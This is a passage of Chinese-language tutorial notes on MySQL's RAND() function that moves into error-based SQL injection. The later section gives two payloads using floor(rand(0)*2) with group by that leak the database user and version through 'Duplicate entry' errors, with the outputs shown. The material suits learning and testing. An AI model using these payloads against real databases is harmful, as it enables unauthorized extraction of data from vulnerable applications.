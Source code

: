 ```sql
| i    | RAND(3)          |
+------+------------------+
|    1 | 0.90576975597606 |
|    2 | 0.37307905813035 |
|    3 | 0.14808605345719 |
+------+------------------+
3 rows in set (0.00 sec)

mysql> SELECT i, RAND() FROM t;
+------+------------------+
| i    | RAND()           |
+------+------------------+
|    1 | 0.35877890638893 |
|    2 | 0.28941420772058 |
|    3 | 0.37073435016976 |
+------+------------------+
3 rows in set (0.00 sec)

mysql> SELECT i, RAND(3) FROM t;
+------+------------------+
| i    | RAND(3)          |
+------+------------------+
|    1 | 0.90576975597606 |
|    2 | 0.37307905813035 |
|    3 | 0.14808605345719 |
+------+------------------+
3 rows in set (0.01 sec)
```
此处表现，rand(seed)时候每次查询结果是一样，但同一次不同行查询的随机值不同。rand()是每次都随机取种子值，每次结果都不同。

生成5到10（含）之间的随机整数数的示例：
```sql
SELECT 
  FLOOR(RAND()*(10-5+1)+5) 'Result 1',
  FLOOR(RAND()*(10-5+1)+5) 'Result 2',
  FLOOR(RAND()*(10-5+1)+5) 'Result 3';
```


### 基于报错的SQL盲注——构造payload让信息通过错误提示回显出来

在这里我们需要的是sql报错，示例如下：

- `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a;`

    ERROR 1062 (23000): Duplicate entry '::root@localhost::1' for key 'group_key'<br>

    这里我们不是十分明白其中的报错原因，大概原理为分组后数据计数时重复造成的错误，也有解释为mysql的bug问题，此处需要将rand()和rand(0)多试几次才行。

- `select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2));`

    ERROR 1062 (23000): Duplicate entry '5.6.171' for key 'group_key'
    
    这里得到version()的值为5.6.17，后面的1是由rand(0)得出，此处rand(0)会从随机的固定值得出一个随机值，floor(rand(0)*2)可得出0或1。
    